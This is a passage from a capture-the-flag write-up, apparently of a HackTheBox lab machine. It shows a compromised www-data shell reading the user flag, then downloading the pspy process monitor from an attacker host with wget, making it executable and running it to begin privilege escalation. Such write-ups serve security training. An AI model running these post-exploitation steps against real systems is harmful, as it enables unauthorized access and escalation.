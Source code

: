 
## USER FLAG

As `www-data`, we can read the user flag in the home of `dev`.

```bash
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls /home
dev
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls /home/dev
user.txt
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ cat /home/dev/user.txt 
<**REDACTED**>
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ 
```

# Lateral Movement

# Privilege Escalation

After looking for credentials in files, we opt to upload an instance of `pspy`, a tool created to spy every command or process that executes code in memory.

```bash
www-data@interface:/tmp$ wget 10.10.X.X:9001/pspy
--2025-06-27 16:21:44--  http://10.10.X.X:9001/pspy
Connecting to 10.10.X.X:9001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy'

pspy                                                      100%[====================================================================================================================================>]   2.96M  8.21MB/s    in 0.4s    

2025-06-27 16:21:45 (8.21 MB/s) - 'pspy' saved [3104768/3104768]

www-data@interface:/tmp$ chmod +x pspy
www-data@interface:/tmp$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
```
